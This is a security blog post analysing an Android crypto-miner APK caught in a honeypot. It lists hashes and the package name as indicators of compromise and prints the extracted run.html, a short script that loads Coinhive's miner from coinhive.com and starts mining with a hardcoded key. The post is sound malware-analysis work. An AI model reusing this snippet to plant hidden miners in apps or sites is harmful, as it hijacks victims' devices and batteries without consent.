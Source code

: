 ```yaml
---
draft: false

title: 'Fishing for Malware — Part Two: Android Crypto Miner'
date: 2022-01-23

description: 'Analysis of malware dropped into my Google Cloud honeypot — pulling apart a rudimentry Android cypto miner'
tags: ['research']
---
```


## Information

### Indicators of Compromise

 - MD5: `8844985fcd57b0311d1d4cb2ec13a1ef`
 - SHA-1: `a0c07fe897515e5575a72f94f9dea8c077a410ff`
 - SHA-256: `0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257`
 - Package name: `com.ufo.miner`
 - Connected domain: `coinhive.com`
 - Unexpected high utilization of Android device resources

 ### File
 - Magic: APK archive
 - Language: Java
 - Size: 45.43 KB

[*See this file on VirusTotal*](https://www.virustotal.com/gui/file/0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257/detection)

As the heading and package name imply, this is a crypto miner developed for Android devices. However, that isn't particularly interesting on its own, and 45.43 KB is small — suspiciously small — so let's take a look inside the file.

## Source

### Extraction

```bash
$ unzip 0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257.raw.zip 
Archive:  0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257.raw.zip
  inflating: META-INF/MANIFEST.MF    
  inflating: META-INF/CERT.SF        
  inflating: META-INF/CERT.RSA       
 extracting: res/drawable-xhdpi-v4/ic_launcher.webp  
  inflating: AndroidManifest.xml     
 extracting: res/drawable-hdpi-v4/ic_launcher.webp  
  inflating: res/layout/activity_main.xml  
  inflating: assets/run.html         
 extracting: resources.arsc          
 extracting: res/drawable-mdpi-v4/ic_launcher.webp  
  inflating: classes.dex             
 extracting: res/drawable-xxhdpi-v4/ic_launcher.webp  
  inflating: res/menu/main.xml     
  
$
```
I see an HTML file, some PNG images, and some other files, the extensions of which I am not familiar with. Let's check them out.

```bash
$ cat assets/run.html
```
```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
    var miner = new CoinHive.Anonymous('fwW95bBFO91OKUsz1VhlMEQwxmDBz7XE',{
        threads:4,
        throttle: 0.8
});
    miner.start();
</script>
```

Sigh. It remains boring. *However,* by searching for the crypto wallet hardcoded into the HTML, I came across a presentation from [Fortinet](https://www.blackalps.ch/ba-18/files/talks/BlackAlps18-Axelle_Apvrille.pdf), indicating that this CoinHive-related malware may have been a part of the [Trinity Android P2P malware bot](https://blogs.keysight.com/blogs/tech/nwvs.entry.html/2020/11/22/trinity_p2p_malware-8S4I.html), which *is* quite interesting. Alas, that is a rabbit hole for another blog post.

Each PNG was a rescaled version of the stock Android logo — not much to say beyond that.

How I assume this malware works:

1. The victim's stock web browser embeds into an app frame in the background.

2. Instructions are received from CoinHive.

3. The miner starts working, sending proof of work to the address hardcoded into the script.

4. The victim's phone gets too hot, or the battery drains too fast; upon seeing the culprit as *com.ufo.miner* in the power report of the device, the victim promptly uninstalls the application.

## Personal Thoughts

This is a very small application and doesn't perform any particularly special operations; in fact, I debated including it in this series at all. More interesting that the malware itself to me, however, is the platform it targets.

In the context of cryptocurrency mining, Android devices are not particularly powerful, and therefore not as lucrative as most other computing machines. It would take a vast, vast array of Android smartphones/tablets/et cetera to generate even a moderate amount of the more popular cryptocurrencies available today, such as Bitcoin. This issue is exacerbated by the ease of detection; many users infected with this malware, I would reason, could trivially identify its existance via the power usage utility on their respective Android device, thereby shortening runtime.

A humorus reference to Coinhive's `coinhive.min.js` script I found online: ["Stack Overflow: \[Coinhive header\] automatically appears in my website"](https://stackoverflow.com/questions/48375946/script-src-https-coinhive-com-lib-coinhive-min-js-script-automatically-a/48376076#48376076)

And, finally, kudos to Troy Hunt, who [bought the Coinhive domain and shut it down](https://www.troyhunt.com/i-now-own-the-coinhive-domain-heres-how-im-fighting-cryptojacking-and-doing-good-things-with-content-security-policies/).

Thanks so much for reading!


**[Fishing for Malware: Part 3 →](/posts/fishing-for-malware-3)**  
**[← Fishing for Malware: Part 1](/posts/fishing-for-malware-1)**